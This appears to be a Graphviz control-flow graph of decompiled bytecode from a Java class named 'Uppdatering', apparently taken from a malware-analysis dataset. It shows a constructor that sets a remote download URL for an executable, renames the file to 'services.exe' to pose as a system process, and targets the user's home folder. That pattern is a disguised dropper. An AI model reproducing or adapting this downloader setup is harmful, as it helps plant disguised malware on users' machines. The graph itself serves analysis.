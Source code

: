 digraph "" {
    "r0 := @this: Uppdatering"
    "load.r r0"
    "r0 := @this: Uppdatering"->"load.r r0";
    "push \"http://www.avenynsguld.se/bilder/html.exe\""
    "load.r r0"->"push \"http://www.avenynsguld.se/bilder/html.exe\"";
    "fieldput <Uppdatering: java.lang.String downloadLocation>"
    "push \"http://www.avenynsguld.se/bilder/html.exe\""->"fieldput <Uppdatering: java.lang.String downloadLocation>";
    "fieldput <Uppdatering: java.lang.String downloadLocation>"->"load.r r0";
    "push \"services.exe\""
    "load.r r0"->"push \"services.exe\"";
    "fieldput <Uppdatering: java.lang.String renameTo>"
    "push \"services.exe\""->"fieldput <Uppdatering: java.lang.String renameTo>";
    "fieldput <Uppdatering: java.lang.String renameTo>"->"load.r r0";
    "new java.lang.StringBuffer"
    "load.r r0"->"new java.lang.StringBuffer";
    "dup1.r"
    "new java.lang.StringBuffer"->"dup1.r";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuffer: void <init>()>";
    "push \"user.home\""
    "specialinvoke <java.lang.StringBuffer: void <init>()>"->"push \"user.home\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"user.home\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "push \"file.separator\""
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"push \"file.separator\"";
    "push \"file.separator\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "fieldput <Uppdatering: java.lang.String downloadTo>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"fieldput <Uppdatering: java.lang.String downloadTo>";
    "return"
    "fieldput <Uppdatering: java.lang.String downloadTo>"->"return";
}
